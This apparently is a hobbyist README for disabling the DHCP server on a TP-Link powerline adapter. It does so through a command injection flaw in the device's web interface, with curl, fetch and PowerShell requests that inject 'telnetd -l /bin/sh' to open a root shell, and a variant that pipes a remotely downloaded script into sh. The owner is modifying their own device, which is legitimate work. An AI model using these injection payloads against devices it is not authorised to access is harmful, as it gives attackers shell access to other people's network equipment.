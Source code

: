 # Disable DHCP
This disables the DHCP server, which breaks internet on networks with a primary DHCP server. See [this forum post on the TP-Link forums](https://community.tp-link.com/us/home/forum/topic/106148) for user complaints. TP-Link never updated the firmware on this model to add on option to disable the server.

# Usage
## 1
Log into powerline web interface/management page
## 2
Note the url/ip address to the powerline and authorization cookie
## 3
Send an authenticated HTTP POST request to `http://${powerline_url}/powerline?form=plc_device` with the following data. Alternatively, sent the request from your browser. Use either CURL, setting the shell script variables `powerline_url` and `authorization_cookie` to appropriate values:
```bash
curl 'http://${powerline_url}/admin/powerline?form=plc_device' -X POST -H 'Accept: application/json, text/javascript, */*; q=0.01' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: ${powerline_url}/' -H 'Origin: ${powerline_url}' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: Authorization=${authorization_cookie}' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' --data-raw 'operation=remove&key=1;telnetd -l /bin/sh'
```
or this JavaScript fetch code (run on powerline page):
```javascript
await fetch(`http://${powerlineUrl}/admin/powerline?form=plc_device`, {
    "credentials": "include",
    "headers": {
        "Accept": "application/json, text/javascript, */*; q=0.01",
        "Accept-Language": "en-US,en;q=0.5",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "X-Requested-With": "XMLHttpRequest",
        "Pragma": "no-cache",
        "Cache-Control": "no-cache"
    },
    "referrer": `http://${powerlineUrl}/`,
    "body": "operation=remove&key=1;telnetd -l /bin/sh",
    "method": "POST",
    "mode": "cors"
});
```
or PowerShell code (not really tested):
```powershell
$session = New-Object Microsoft.PowerShell.Commands.WebRequestSession
$session.Cookies.Add((New-Object System.Net.Cookie("Authorization", $authorizationCookie, "/", $powerlineUrl)))
Invoke-WebRequest -UseBasicParsing -Uri "http://$powerlineUrl/admin/powerline?form=plc_device" `
-Method POST `
-WebSession $session `
-Headers @{
"Accept" = "application/json, text/javascript, */*; q=0.01"
  "Accept-Language" = "en-US,en;q=0.5"
  "Accept-Encoding" = "gzip, deflate"
  "Referer" = "http://$powerlineUrl/"
  "Origin" = "http://$powerlineUrl"
  "DNT" = "1"
  "X-Requested-With" = "XMLHttpRequest"
  "Pragma" = "no-cache"
  "Cache-Control" = "no-cache"
} `
-ContentType "application/x-www-form-urlencoded; charset=UTF-8" `
-Body "operation=remove&key=1;telnetd -l /bin/sh"
```

This exploits a command injection vulnerability in the http server code on the powerline to start a telnet server. Thanks to [this blog post](https://the-hyperbolic.com/posts/hacking-the-tlwpa4220-part-1/) from the hyperbolic for a great writeup about the vulnerability.

### Easier step
Host a local HTTP/FTP server with payload.sh and change the above body to 
```
"operation=remove&key=1;wget -q -O - http://<server to download payload>/payload.sh | sh"
```

This disables the DHCP server by running the script directly downloaded from the internet and doesn't require any other commands. Read some [final notes](#done)

## 4
Run `payload.sh` on the powerline via telnet by running on your local machine `upload-payload.sh`

Read the output and make there aren't any errors.

If you don't see any output, try increasing the sleep time higher than 15.
If the payload was interrupted or already run before, you may need to undo its partially changes before rerunning the script. I should document how to do that.

(see https://unix.stackexchange.com/a/296161) for source of this command.

Alternatively, copy and paste the contents into telnet.

## 5
To verify if command worked, telnet into the powerline and print the contents of `/usr/sbin/udhcpd`:
```bash
cat /usr/sbin/udhcpd
```
Verify that it is just a shell script that just creates the `/tmp/udhcpd.pid` file or something similar.

## 6
Kill the telnet server since that is a big vulernability
```bash
killall -9 telnetd
```

## Done
And that's it. The DHCP server on the powerline should never start up. This process will need to be repeated each time the powerline is rebooted or loses power.

The script should leave two log entries in the "System Log": A "DHCP Client" log of level "INFO", and a "MAC-FILTER" log of level "ERROR". The script didn't actually to anything to the MAC filter. It is just a byproduct of logging.

# Technical Details
I could have modified the firmware instead of this solution. Doing so would make the changes persistent. The current solution modifies only RAM and not the firmware. I chose this method instead because I do not want to risk bricking my device; this device doesn't appear to have any recovery mechanisms via TFTP like some routers.
The daemon LanSettingsd starts `/usr/sbin/udhcpd`, which is from `busybox`, under certain conditions.
From reverse engineering via Ghidra, one condition triggering it is when LAN settings (IP address, subnet mask, etc.) are written to (changed) from the web, but I'm not very confident about that.

This solution overwrites the `udhcpd` executable with a shell script that returns immediately instead. The shell script also creates a `/tmp/udhcpd.pid` file because LanSettingsd appears to use that file to decide whether to try starting `udhcpd` again. There shouldn't be any impact of it starting the modified `udhcpd` mulitple times, but it seems inefficient. See the function `FUN_00011070` in `LanSettingd`.

The root filesystem is a squashfs which is read-only. To allow modifications, therefore, we bind mount a tmpfs (`/tmp/hacked_sbin`) over `/usr/sbin` and put a modfied copy of the original `/usr/sbin` into the tmpfs.

I could also paste the entire command into the command injection rather than use telnet. Figuring out escaping seems a bit annoying. Also, I'm not sure if there's a character limit. In `httpd`, the `execFormatCmd` function appears to have a 2048 byte buffer, which might be a limit (though large enough for our purposes).
